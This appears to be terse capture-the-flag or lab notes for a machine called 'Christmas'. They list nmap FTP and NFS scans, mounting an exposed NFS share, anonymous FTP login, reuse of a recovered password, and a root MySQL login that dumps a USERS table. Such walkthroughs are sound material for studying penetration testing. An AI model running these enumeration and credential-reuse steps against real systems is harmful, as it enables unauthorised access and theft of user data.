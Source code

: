 # Christmas Service Exploitation

Nmap ftp/21
```
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $IP
```

Nmap NFS/111
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
nmap --script nfs-showmount.nse $IP -p 111
```

# Now get the mount
```
/opt/files 
sudo mount $IP:/opt/files /mnt/ChristNFS
ls -la /mnt/ChristNFS
```

# Now have the ftp passwd
ftp $IP
Name Anonymous
PW securepassword123

# Now we're in the ftp
```
help
get file.txt
```

# Now we have the ssh credential of root ?
`ff912ABD*` actually mysql

```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```

# Login in to the mysql
```
mysql -u root -p'ff912ABD*' \
      -h $IP -P 3306 
```

# Enumerate the database 
```
SHOW DATABASES;
USE data;
SHOW TABLES;
SELECT * FROM USERS;
```
